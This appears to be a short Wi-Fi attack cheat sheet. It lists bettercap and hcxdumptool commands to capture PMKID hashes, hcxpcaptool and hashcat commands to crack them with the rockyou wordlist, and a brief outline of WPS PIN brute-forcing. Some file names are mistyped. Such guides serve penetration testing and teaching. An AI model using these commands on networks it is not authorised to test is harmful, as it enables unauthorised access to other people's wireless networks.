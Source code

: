 #### Via Bettercap

The results will be exported on a pcap file.

```
bettercap -iface <IFACE>

iface >> wifi.recon on
iface >> wifi.show

iface >> wifi.assoc all
```

#### Via hcxdumptool

Same as bettercap, the results will be exported on a pcap file.

```
hcxdumptool -i <IFACE> -o <OUT_FILE> --enable_status=1
```

#### Export results fo hashcat && Cr4ck it!

Using `hcxpcaptool` we can easily transform the output of bettercap or hcxdumptool to hashcat.

```
hcxpcaptool -z hashes.hash Capture.pcap

hashcat -m 16800 -d 1 -w 3 hashesh.hash /usr/share/wordslist/rockyou.txt
```

### WPS Attack

Wifi Protected Setup aka WPS is a wireless network security standard that tries to make connections between a router and devices faster and easier.

`WPSPinGenerator` is an automatic tool available in `Wifislax`.

First we need to choose the interface to work with and the channels where we want to listen. We can see the generic PINS if they are available on the network by selection the suitable SSID.

Finally we just need to test the PIN and wait for success. Noticed that after 3 fail attempts the WPS could lock.

